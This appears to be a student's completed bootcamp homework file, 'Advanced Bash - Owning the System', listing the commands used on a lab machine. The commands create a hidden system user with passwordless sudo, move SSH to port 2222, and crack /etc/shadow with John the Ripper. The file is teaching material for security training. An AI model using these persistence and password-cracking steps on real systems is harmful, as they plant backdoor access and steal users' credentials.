 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:

    - `sudo adduser --no-create-home sysd` 
   
2. Give your secret user a password: 

    - `no command, answered promps as directed`

3. Give your secret user a system UID < 1000:

    - `sudo usermod -u 869 sysd`

        <img src="sysdID.png"> 

        ![picture](IMAGE/sysdID.png)
     
4. Give your secret user the same GID:

    - `sudo groupmod -g 869 sysd`

       <img src="\Rob\Desktop\University-of-Minnesota-\week6\IMAGE\sysdID.png"> 
       
       ![picture](IMAGE/sysdID.png)

5. Give your secret user full `sudo` access without the need for a password:

   -  sudo visudo
   -  enter pass word
   -  /etc/sudoers.tmp folder
   
   -  root    ALL=(ALL:ALL) ALL
   -  sysd    ALL=(ALL:ALL) NOPASSWD:ALL

      <img src="IMAGE/su_acc_nopass.png"> 
      
      ![description](IMAGE/su_acc_nopass.png)

6. Test that `sudo` access works without your password:

    - sudo -l 
    - (ALL : ALL) NOPASSWD: ALL   

NOTE: there are many other ways to modify your user. Here is another example that accomplishes similar tasks that are asked in the homework questions but done in one command: 

sudo adduser --no-create-home --uid 869 --disabled-password sysd

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    -sudo nano /etc/ssh/sshd_config
    - Port 2222

    <img src="/week6/IMAGE/step_2.png"> 

    ![description](IMAGE/step_2.png)

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemctl restart ssh`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysadmin@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

    <img src="/week6/IMAGE/step3_1.png"> 

    ![description](IMAGE/step3_1.png)

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo john /etc/shadow`

    <img src="/week6/IMAGE/passwd8.png"> 

    ![description](IMAGE/passwd8.png)

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

